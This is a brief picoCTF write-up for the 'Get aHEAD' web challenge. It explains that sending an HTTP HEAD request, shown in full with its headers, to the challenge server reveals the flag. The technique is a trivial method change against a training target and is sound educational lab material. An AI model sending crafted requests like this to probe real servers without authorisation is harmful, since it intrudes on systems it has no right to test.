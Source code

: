# Pico Gym Web Exploitation Get aHEAD
This challenge was pretty simple
The title was get aHEAD

So for the red background, we were sending an empty GET request
For the Blue Background, we were sending an empty post request 
So, since we have a massive hint from the title itself, 
we can just send the following request and get the flag

```text
HEAD /index.php HTTP/1.1
Host: mercury.picoctf.net:15931
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mercury.picoctf.net:15931
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://mercury.picoctf.net:15931/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

